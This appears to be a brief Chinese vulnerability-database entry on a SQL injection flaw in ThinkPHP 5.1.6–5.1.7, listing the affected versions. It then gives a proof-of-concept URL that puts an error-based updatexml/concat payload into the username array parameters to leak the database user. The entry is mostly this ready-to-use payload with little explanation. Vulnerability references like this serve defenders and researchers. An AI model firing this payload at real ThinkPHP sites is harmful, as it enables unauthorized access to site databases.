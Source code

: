 ```yaml
---
title: 'Thinkphp 5.1.(6-8) sql注入漏洞'
date: Sat, 03 Oct 2020 16:28:41 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

5.1.6<=ThinkPHP<=5.1.7 非最新版5.1.8

### 漏洞POC

没开启debug看不到报错信息```
http://********/index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0 

